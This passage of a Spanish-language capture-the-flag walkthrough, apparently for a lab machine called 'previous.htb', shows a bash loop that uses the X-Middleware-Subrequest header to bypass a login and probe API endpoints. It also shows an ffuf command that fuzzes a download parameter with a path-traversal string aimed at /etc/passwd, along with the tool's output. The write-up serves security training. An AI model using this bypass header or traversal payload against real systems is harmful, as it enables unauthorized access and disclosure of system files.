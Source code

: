 Veremos que funciona, por lo que vamos a probar varios parametros de `endpoint` de la `API` a ver cual puede existir ya que estamos `bypasseando` el `login`.

> urlBypass.sh

```bash
# Script para probar múltiples endpoints
ENDPOINTS=("users" "admin" "config" "settings" "database" "files" "upload" "download" "auth" "session" "tokens" "ssh" "backup")

for endpoint in "${ENDPOINTS[@]}"; do
    echo "Testing: /api/$endpoint"
    curl -s -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/$endpoint" | head -20
    echo "---"
done
```

Lo ejecutaremos de esta forma:

```shell
bash urlBypass.sh
```

Info:

```
............................<RESTO DEL CODIGO>.....................................
Testing: /api/download
{"error":"Invalid filename"}
............................<RESTO DEL CODIGO>.....................................
```

Por lo que vemos aqui nos pide un archivo como parametro, por lo que esta funcionando, vamos a probar a realizar lo siguiente:

## FFUF

```shell
ffuf -u 'http://previous.htb/api/download?FUZZ=../../../../../../etc/passwd' -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" -w <WORDLIST>
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://previous.htb/api/download?FUZZ=../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

```